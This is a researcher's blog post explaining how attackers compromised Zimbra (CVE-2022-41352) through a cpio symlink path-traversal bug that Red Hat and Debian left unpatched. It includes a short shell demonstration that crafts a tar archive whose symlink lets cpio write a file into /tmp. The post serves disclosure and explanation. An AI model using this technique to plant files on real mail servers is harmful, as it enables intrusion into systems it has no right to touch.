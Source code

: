 ```yaml
---
title: 'Blast from the Past: How Attackers Compromised Zimbra With a Patched Vulnerability'
author: ron
categories:
- hacking
layout: post
date: '2023-01-23T12:14:17-08:00'
permalink: "/2023/blast-from-the-past--how-attackers-compromised-zimbra-with-a-patched-vulnerability"
comments_id: '109740350441701098'

---
```


Last year, I worked on a vulnerability in Zimbra
([CVE-2022-41352](https://nvd.nist.gov/vuln/detail/CVE-2022-41352) - [my
AttackerKB analysis](https://attackerkb.com/topics/1DDTvUNFzH/cve-2022-41352/rapid7-analysis) for Rapid7)
that turned out to be a new(-ish) exploit path for a really old bug in `cpio` -
CVE-2015-1194. But that was patched in 2019, so what happened?

(I posted this as a tweet-thread awhile back, but I decided to flesh it out and
make it into a full blog post!)

<!--more-->

`cpio` is an archive tool commonly used for system-level stuff (firmware images
and such). It can also extract other format, like `.tar`, which we'll use since
it's more familiar.

`cpio` has a flag (`--no-absolute-filenames`), off by default,
that purports to prevent writing files outside of the target directory. That's
handy when, for example, extracting untrusted files with [Amavis](https://gitlab.com/amavis/amavis)
(like Zimbra does).

The problem is, symbolic links can point to absolute paths, and therefore, even
with `--no-absolute-filenames`, there was no safe way to extract an untrusted
archive (outside of using a `chroot` environment or something similar, which
they really ought to do).

Much later, in 2019, the `cpio` team released `cpio` version 2.13, which
[includes a patch for
CVE-2015-1194](https://git.savannah.gnu.org/cgit/cpio.git/commit/?id=45b0ee2b),
with unit tests and everything.

Some (not all) modern OSes include the patched version of cpio, which should be
the end of the story, but it's not!

I'm currently writing this on Fedora 35, so let's try exploiting it. We can
confirm that the version of `cpio` installed with the OS is, indeed, the fixed
version:

```sh
ron@fedora ~ $ cpio --version
cpio (GNU cpio) 2.13
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Phil Nelson, David MacKenzie, John Oleynick,
and Sergey Poznyakoff.
```

That means that we shouldn't be able to use symlinks to write outside of the
target directory, so let's create a `.tar` file that includes a symlink and a
file written through that symlink (this is largely copied from
[this mailing list post](https://lists.gnu.org/archive/html/bug-cpio/2015-01/msg00000.html):

```sh
ron@fedora ~ $ mkdir cpiotest
ron@fedora ~ $ cd cpiotest
ron@fedora ~/cpiotest $ ln -s /tmp/ ./demo
ron@fedora ~/cpiotest $ echo 'hello' > demo/imafile
ron@fedora ~/cpiotest $ tar -cvf demo.tar demo demo/imafile
demo
demo/imafile
ron@fedora ~/cpiotest $ rm -f demo /tmp/imafile
```
So now we have a `.tar` with a symlink that goes outside the directory:

```sh
ron@fedora ~/cpiotest $ tar -tvf ./demo.tar 
lrwxrwxrwx ron/ron           0 2023-01-13 15:03 demo -> /tmp/
-rw-r--r-- ron/ron           6 2023-01-13 15:03 demo/imafile
```

In theory, we shouldn't be able to extract that. Certainly, we can't with the
standard `tar` executable:

```sh
ron@fedora ~/cpiotest $ tar -xvf ./demo.tar
demo
demo/imafile
tar: demo/imafile: Cannot open: Not a directory
tar: Exiting with failure status due to previous errors
```

And we *shouldn't* be able to with `cpio`, since it's patched.... right?

```sh
ron@fedora ~/cpiotest $ cpio -i -d --no-absolute-filenames --verbose < ./demo.tar
demo
demo/imafile
4 blocks
ron@fedora ~/cpiotest $ ls
demo@  demo.tar
ron@fedora ~/cpiotest $ ls -l /tmp/imafile
-rw-r--r--. 1 ron ron 6 Jan 13 15:09 /tmp/imafile
```

Wait, what's happening? This messed me up for awhile! By all accounts, the
current version of `cpio` on a nearly-current version of Fedora shouldn't be
vulnerable, but it is!

I did some spelunking into the source RPMs and DEBs, and found that both
Red Hat and Debian (and all derived OSes) specifically *remove* the patch, citing
[this forum post](https://lists.gnu.org/archive/html/bug-cpio/2019-11/msg00016.html)
where somebody ran into a bug with initrd!

The mailing list post, from 2019, says they'll look into how to fix this, but as
far as I can tell, nobody ever did. I imagine that removing
`--no-absolute-filenames` would fix it, but I don't think anybody actually
looked into this.

Years later, we come to find out that Zimbra uses Amavis, which uses `cpio` by
default (if pax isn't installed). We found it out because somebody got
exploited, and was kind enough to
[post details about the compromise](https://forums.zimbra.org/viewtopic.php?t=71153&p=306532).
Since I had seen and [written about](https://attackerkb.com/topics/RCa4EIZdbZ/cve-2022-30333/rapid7-analysis)
a very similar vulnerability recently, I recognized what was going on in the
forum post. The biggest hurdle was the confusion about why modern systems are
impacted!

Zimbra did roll out a fix eventually - specifically, Zimbra now requires the
`pax` executable, which is not vulnerable. We 
[wrote a blog about this](https://www.rapid7.com/blog/post/2022/10/06/exploitation-of-unpatched-zero-day-remote-code-execution-vulnerability-in-zimbra-collaboration-suite-cve-2022-41352/) back in October when it was new.

One more fun fact.. Ubuntu 18.04 (and as far as I can tell, ONLY Ubuntu 18.04)
backported the patch to cpio 2.12, which really confused my research! I just
happened to be testing Zimbra on Ubuntu 18.04, which includes `cpio` version
2.12, which *should* be vulnerable, but it wasn't!

It took me awhile to unravel all the weirdness, and I'm happy to report that
it's all sorted out now.
